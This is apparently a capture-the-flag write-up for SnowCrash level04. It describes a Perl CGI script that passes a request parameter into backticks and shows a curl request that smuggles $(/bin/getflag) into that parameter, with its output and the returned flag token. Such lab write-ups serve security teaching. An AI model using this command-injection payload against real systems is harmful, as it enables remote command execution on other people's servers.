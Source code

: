 # level04

We have a script `perl` in home. It listen a CGI request on the port `4747`. A parameter `x` is get.  
We can use it to obtain what we want because a [`backtricks`](https://perldoc.perl.org/perlop#Quote-Like-Operators) are used.
This `backtricks` are system command interpreters.
Because we want to send `/bin/getflag` command, we must use this syntax: 

```bash
curl --get http://192.168.56.116:4747 --data 'x="$(/bin/getflag)"'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```
Whithout our `$(...)` the code will execute the `echo` command:

```bash
level04@SnowCrash:~$ curl --get http://192.168.56.116:4747 --data 'x="/bin/getflag"'
/bin/getflag
```

